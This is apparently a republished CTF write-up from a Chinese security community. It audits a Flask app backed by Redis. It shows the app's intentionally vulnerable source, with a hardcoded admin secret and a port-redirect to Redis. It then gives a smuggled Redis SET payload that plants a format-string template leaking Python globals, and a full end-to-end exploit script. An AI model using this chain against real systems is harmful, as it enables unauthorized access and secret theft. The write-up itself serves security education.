






# Redis下的python模板魔术方法攻击-先知社区

> **来源**: https://xz.aliyun.com/news/17318  
> **文章ID**: 17318

---

先看一下源码目录



其中app.py为关键文件：

```
import socket
import redis
import json
import os

from hashlib import md5, sha256
from os.path import join
from flask import Flask, request, jsonify, session
from flag import FLAG

app = Flask(__name__)
app.secret_key = os.urandom(0x10)

redis_conn = redis.Redis(host="localhost", port=6379, db=0)

model_ports = {"math-v1": 54321, "default": 50051}

# Port to Database at v1.0.
users = {"test": {"password": "098f6bcd4621d373cade4e832627b4f6"}}


# ======== Utilities ========
class PromptTemplate:
    PROMPT_DIR = "static/prompts"

    def __init__(self, question, user_level="primary"):
        self.user_level = user_level
        self.question = question

    @staticmethod
    def get_template(template_id):
        prompt_key = f"prompt:{template_id}"
        prompt = redis_conn.get(prompt_key)
        if not prompt:
            template_path = join(PromptTemplate.PROMPT_DIR, f"{template_id}.txt")
            with open(template_path, "rb") as file:
                prompt = file.read()
            redis_conn.set(prompt_key, prompt)
        prompt = prompt.decode(errors="ignore")
        return prompt

    def get_prompt(self, template_id):
        return PromptTemplate.get_template(template_id).format(t=self)


def get_model_port(model_id):
    return model_ports.get(model_id, model_ports["default"])


def generate_prompt(user_question, prompt_id="math-v1"):

    return PromptTemplate(user_question).get_prompt(prompt_id)


def query_model(prompt, model_id="default"):
    cache_key = f"{md5(prompt.encode()).hexdigest()}:{model_id}"
    cached = redis_conn.get(cache_key)
    if cached:
        return cached.decode()

    try:
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
            s.connect(("127.0.0.1", get_model_port(model_id)))
            s.sendall(prompt.encode("utf-8"))
            response = s.recv(4096).decode("utf-8")

            redis_conn.setex(cache_key, 3600, response)  # Cache for 1 hour
            return response
    except Exception as e:
        return f"Model service error: {str(e)}"


def generate_salt():
    return os.urandom(0x10)


def hash_password(password, salt):
    return sha256(salt + password.encode()).hexdigest()


# ================

def whoami(username):
    role = request.headers.get("X-User-Role")
    if username is None:
        r = role
    else:
        r = username + ":" + role
    return r

@app.route("/")
def index():
    return f"Welcome to the RNG Assistant, {whoami(session['user'])}!"


@app.route("/register", methods=["POST"])
def register():
    data = request.json
    username = data.get("username")
    password = data.get("password")

    if not username or not password:
        return jsonify({"error": "Missing username or password"}), 400

    if username in users:
        return jsonify({"error": "Username already exists"}), 400

    salt = generate_salt()
    hashed_password = hash_password(password, salt)
    users[username] = {"password": hashed_password, "salt": salt}
    return jsonify({"message": "Registration successful"})


@app.route("/login", methods=["POST"])
def login():
    data = request.json
    username = data.get("username")
    password = data.get("password")

    user = users.get(username)
    if not user or user["password"] != hash_password(password, user["salt"]):
        return jsonify({"error": "Invalid credentials"}), 401

    session["user"] = username
    return jsonify({"message": f"Login successful", "user": whoami(session['user'])})


@app.route("/ask", methods=["POST"])
def ask_question():
    if "user" not in session:
        return jsonify({"error": "Login required"}), 401

    data = request.json
    question = data.get("question")
    model_id = data.get("model_id", "default")

    final_prompt = generate_prompt(question)

    response = query_model(final_prompt, model_id)
    res = {"answer": response, "prompt": final_prompt, "model_id": model_id, "user": whoami(session['user'])}
    return jsonify(res)


@app.route("/admin/raw_ask", methods=["POST", "PUT", "DELETE"])
def manage_ask():
    if (
        "user" not in session
        or request.headers.get("X-User-Role") != "admin"
        or request.headers.get("X-Secret") != "210317a2ee916063014c57d879b9d3bc"
    ):
        return jsonify({"error": "Access denied"}), 403

    data = request.json
    model_id = data.get("model_id", "default")
    custom_prompt = data.get("prompt")

    final_prompt = custom_prompt

    response = query_model(final_prompt, model_id)
    return jsonify({"answer": response, "user": whoami(session['user'])})


@app.route("/admin/model_ports", methods=["POST", "PUT", "DELETE"])
def manage_model_ports():
    if (
        "user" not in session
        or request.headers.get("X-User-Role") != "admin"
        or request.headers.get("X-Secret") != "210317a2ee916063014c57d879b9d3bc"
    ):
        return jsonify({"error": "Access denied"}), 403

    data = request.json
    model_id = data.get("model_id")
    port = data.get("port")

    if request.method in ["POST", "PUT"]:
        if not model_id or not port:
            return jsonify({"error": "Missing parameters"}), 400
        model_ports[model_id] = port
        return jsonify({"message": "Update successful", "user": whoami(session['user'])})

    elif request.method == "DELETE":
        if not model_id:
            return jsonify({"error": "Missing model_id"}), 400
        if model_id in model_ports:
            del model_ports[model_id]
        return jsonify({"message": "Delete successful", "user": whoami(session['user'])})


if __name__ == "__main__":
    app.run(port=8000)

```

代码审计，发现admin路由可以伪造越权，也就是说只对session中的user字段是否为空进行了判断，我们只需拿一个普通用户的session，再用http头字段伪造即可越权

​

先随意注册一个账户



然后登录拿session



拿到session之后，再看`/admin/model\_ports`路由的源码，审计发现代码主要功能是可以给模型定义端口。

再审计/admin/raw\_ask路由发现如果我们能够控制模型的端口，就可以与redis通信，并能够通过缓存机制自定义执行redis命令

```
def query_model(prompt, model_id="default"):
    cache_key = f"{md5(prompt.encode()).hexdigest()}:{model_id}"
    cached = redis_conn.get(cache_key)
    if cached:
        return cached.decode()

    try:
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
            s.connect(("127.0.0.1", get_model_port(model_id)))
            s.sendall(prompt.encode("utf-8"))
            response = s.recv(4096).decode("utf-8")

            redis_conn.setex(cache_key, 3600, response)  # Cache for 1 hour
            return response
    except Exception as e:
        return f"Model service error: {str(e)}"


final_prompt = custom_prompt
response = query_model(final_prompt, model_id)
```

还有一个关键的漏洞路由ask，我们审计发现有一个模板渲染功能，如果redis中存在缓存就直接渲染value，如果没有缓存就从文件夹下读文件渲染，并且默认查询的redis key为prompt:math-v1

```
model_ports = {"math-v1": 54321, "default": 50051}

# Port to Database at v1.0.
users = {"test": {"password": "098f6bcd4621d373cade4e832627b4f6"}}


# ======== Utilities ========
class PromptTemplate:
    PROMPT_DIR = "static/prompts"

    def __init__(self, question, user_level="primary"):
        self.user_level = user_level
        self.question = question

    @staticmethod
    def get_template(template_id):
        prompt_key = f"prompt:{template_id}"
        prompt = redis_conn.get(prompt_key)
        if not prompt:
            template_path = join(PromptTemplate.PROMPT_DIR, f"{template_id}.txt")
            with open(template_path, "rb") as file:
                prompt = file.read()
            redis_conn.set(prompt_key, prompt)
        prompt = prompt.decode(errors="ignore")
        return prompt

    def get_prompt(self, template_id):
        return PromptTemplate.get_template(template_id).format(t=self)


def get_model_port(model_id):
    return model_ports.get(model_id, model_ports["default"])


def generate_prompt(user_question, prompt_id="math-v1"):
    
    return PromptTemplate(user_question).get_prompt(prompt_id)


final_prompt = generate_prompt(question)
response = query_model(final_prompt, model_id)
```

根据以上联系，我们只要通过redis命令设置prompt:math-v1 key的value为一个python模板即可进行渲染，通过模板匹配可以实现python的魔术方法拿到flag

​

下面先设置模型id=test并且端口为redis端口



然后在进行redsi命令设置key-value

```
{"model_id":"test","prompt":"\r
SET "prompt:math-v1" "{t.__init__.__globals__}"\r
"}

```



然后进行ask路由随意查询一个，渲染模板即可拿到全局变量



将攻击过程写为一把梭脚本完整如下：

```
import requests
from flask import session

url1="http://localhost:18082/register"
url2="http://localhost:18082/login"
url3="http://localhost:18082/ask"
url4="http://localhost:18082/admin/model_ports"
url5="http://localhost:18082/admin/raw_ask"
data='''{
    "username":"aaa",
    "password":"asd"
}
'''
headers={"Content-type":"application/json"}
headers1={"Content-type":"application/json",
          "X-User-Role":"admin",
          "X-Secret":"210317a2ee916063014c57d879b9d3bc"
          }
with requests.Session() as s:
    res1 = s.post(url=url1, data=data, headers=headers)
    print(res1.text)

with requests.Session() as s:
    res2 = s.post(url=url2, data=data, headers=headers)
    print(res2.text)
    res4 = s.post(url=url4, json={"model_id":"test","port":6379}, headers=headers1)
    print(res4.text)
    res5 = s.post(url=url5, json={"model_id":"test","prompt":'\r
SET "prompt:math-v1" "{t.__init__.__globals__}"\r
'}, headers=headers1)
    print(res5.text)
    res3 = s.post(url=url3, json={"question":"asd"}, headers=headers)
    print(res3.text)
```
